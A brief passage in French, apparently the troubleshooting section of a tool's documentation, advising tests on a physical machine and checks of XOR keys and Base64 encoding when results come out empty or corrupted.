- Utilisez une machine physique pour les tests

### Résultats vides ou corrompus
- Vérifiez que les clés XOR correspondent
- Vérifiez l'encodage Base64
